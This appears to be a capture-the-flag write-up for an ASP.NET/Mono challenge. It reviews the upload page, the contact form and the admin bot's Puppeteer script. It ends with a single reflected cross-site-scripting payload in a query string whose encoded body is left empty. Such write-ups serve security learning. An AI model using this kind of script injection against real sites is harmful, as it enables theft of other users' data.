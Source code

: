 ```yaml
---
tags: 
references:
---
```

# CDN
Solves: 
Tags: #asp #xss
## Description
> **Diary Entry: February 10, 2080**
  
  Another day in the wasteland of enterprise software. The neon skyline flickers outside my window, but inside this concrete bunker of a cubicle, it's just me, an aging keyboard, and a .NET Framework project that refuses to die. I don't know how we got here. The world outside runs on quantum distributed neural meshes, but here I am, hammering away at legacy C# code in an IDE that barely runs on this salvaged hardware. Mono is the only thing keeping this fossil alive, and even that is held together with digital duct tape and the tears of developers long past. The system is ancient, predating even my grandparents. But the Corp won't let us move it. "Too much risk" they say. "Legacy compatibility" they insist. They don't see the warnings flashing in the logs like distress beacons in deep space. Reflection errors. Memory leaks. A garbage collector that might as well be a janitor sweeping an endless hallway of digital debris.
## Overview
Applications that lets upload files and report an url to a bot.
## Road to flag
The flag is in a file in the admin account:
```js
await page.goto(cdnUrl + '/Files.aspx', {
	waitUntil: 'networkidle0',
});
const elementHandle = await page.$("#ctl00_MainContent_FileUpload1");
await elementHandle.uploadFile('/tmp/flag.txt');
```
## Code review
### Web
- The app is made with `asp.net 4.5.2` and `mono`:
```dockerfile
FROM mono:latest
RUN apt-get update && apt-get install -y mono-xsp4 referenceassemblies-pcl
COPY app/ /var/www/app/
WORKDIR /var/www/app/
EXPOSE 9000
ENTRYPOINT [ "xsp4", "--nonstop", "--port=9000" ]
```
- packages in use:
```xml
<?xml version="1.0" encoding="utf-8"?>
<packages>
  <package id="Microsoft.AspNet.FriendlyUrls" version="1.0.2" targetFramework="net452" />
  <package id="Microsoft.AspNet.FriendlyUrls.Core" version="1.0.2" targetFramework="net452" />
  <package id="Microsoft.AspNet.Identity.Core" version="2.2.4" targetFramework="net48" />
  <package id="Microsoft.AspNet.Identity.Owin" version="2.2.4" targetFramework="net48" />
  <package id="Microsoft.AspNet.Providers.Core" version="2.0.0" targetFramework="net452" />
  <package id="Microsoft.CodeDom.Providers.DotNetCompilerPlatform" version="4.1.0" targetFramework="net48" />
  <package id="Microsoft.Net.Compilers" version="4.2.0" targetFramework="net48" developmentDependency="true" />
  <package id="Microsoft.Owin" version="4.2.2" targetFramework="net48" />
  <package id="Microsoft.Owin.Host.SystemWeb" version="4.2.2" targetFramework="net48" />
  <package id="Microsoft.Owin.Security" version="4.2.2" targetFramework="net48" />
  <package id="Microsoft.Owin.Security.Cookies" version="4.2.2" targetFramework="net48" />
  <package id="Microsoft.Owin.Security.OAuth" version="4.2.2" targetFramework="net48" />
  <package id="Microsoft.Web.Infrastructure" version="2.0.0" targetFramework="net48" />
  <package id="Newtonsoft.Json" version="13.0.3" targetFramework="net48" />
  <package id="Owin" version="1.0" targetFramework="net452" />
  <package id="StructureMap" version="4.7.1" targetFramework="net48" />
  <package id="System.Reflection.Emit.Lightweight" version="4.7.0" targetFramework="net48" />
  <package id="WebActivatorEx" version="2.2.0" targetFramework="net48" />
  <package id="WebFormsMvp" version="1.4.5.0" targetFramework="net452" />
  <package id="WebFormsMvp.StructureMap" version="1.4.5.0" targetFramework="net452" />
</packages>
```

- Files are stored in a dictionary with the username as the key:
```c#
namespace CDN.Web
{
    public class FileData {
        public string FileName { get; set; }
        public string Data { get; set; }
    }
    [PresenterBinding(typeof(FilesPresenter))]
    public partial class Files : MvpPage<FilesViewModel>, IFilesView {
        public static readonly Dictionary<string, List<FileData>> _files = new Dictionary<string, List<FileData>>();
        protected void Page_Load(object sender, EventArgs e) {
            if (this.User.Identity.IsAuthenticated) {
                var username = this.User.Identity.Name;
                if (!_files.ContainsKey(username))
                    _files[username] = new List<FileData>();
                this.ListView1.DataSource = _files[username];
                if (_files[username].Count > 0)
                    this.ListView1.DataBind();
            }
            else {
                this.ListView1.DataSource = new List<FileData>();
            }
        }

        protected void UploadFileButton_Click(object sender, EventArgs e) {
            if (!this.User.Identity.IsAuthenticated) {
                this.ErrorMessage.Text = "Only signed in users can upload files.";
                return;
            }
            if (this.FileUpload1.HasFile) {
                var username = this.User.Identity.Name;
                var data = new FileData {
                    FileName = this.FileUpload1.FileName ?? "default-filename.bin",
                    Data = "data:application/octet-stream;base64," + Convert.ToBase64String(this.FileUpload1.FileBytes)
                };
                if (!_files.ContainsKey(username)) {
                    _files[username] = new List<FileData>();
                }
                _files[username].Add(data);
                this.ListView1.DataSource = _files[username];
                this.ListView1.DataBind();
                this.ErrorMessage.Text = "File upload successful.";
            }
            else {
                this.ErrorMessage.Text = "No file attached.";
            }
        }
    }
```
### Bot
- I can submit a relative path to the bot
```cs
//Contact.aspx.cs
protected void SendContactClick(object sender, EventArgs e) {
	if (Page.IsValid) {
			var relativePath = HttpUtility.UrlDecode(this.LinkText.Text);
			if (IsRelativePath(relativePath)) {
				this.ErrorMessage.Text = "";
				var client = new HttpClient();
				string botEndpoint = Environment.GetEnvironmentVariable("BOT_ENDPOINT");
				string cdnEndpoint = Environment.GetEnvironmentVariable("CDN_ENDPOINT");
				string url = $"http://{botEndpoint}/visit";
				var data = new {		url = $"http://{cdnEndpoint}{relativePath}"		};
				string jsonData = JsonConvert.SerializeObject(data);
				var content = new StringContent(jsonData, Encoding.UTF8, "application/json");
				client.PostAsync(url, content).Wait();
			}
			else {
				this.ErrorMessage.Text = "Link is not relative. Admin not contacted.";
			}
	}
}
```

- The bot, before opening the sumbitted path, logs in and uploads the file containing the flag:
```js
const username = crypto.randomBytes(20).toString('hex');
const password = crypto.randomBytes(20).toString('hex');
let cdnUrl = 'http://' + process.env.CDN_ENDPOINT;
await page.goto(cdnUrl + '/Account/Register.aspx', {
		waitUntil: 'networkidle0',
});

console.log("Registering account");
await page.type('#ctl00_MainContent_UserName', username);
await page.type('#ctl00_MainContent_Password', password);
await page.type('#ctl00_MainContent_ConfirmPassword', password);

await Promise.all([
		page.click('#ctl00_MainContent_RegisterButton'),
		page.waitForNavigation({ waitUntil: "load" }),
]);

console.log("Logging into account");

await page.type('#ctl00_MainContent_UserName', username);
await page.type('#ctl00_MainContent_Password', password);

await Promise.all([
		page.click('#ctl00_MainContent_LoginButton'),
		page.waitForNavigation({ waitUntil: "load" }),
]);

console.log("Uploading flag")
await page.goto(cdnUrl + '/Files.aspx', {
		waitUntil: 'networkidle0',
});
const elementHandle = await page.$("#ctl00_MainContent_FileUpload1");
await elementHandle.uploadFile('/tmp/flag.txt');

```

## Exploitation
`/Files.aspx?<script>eval(atob(""))</script>=<img/src>`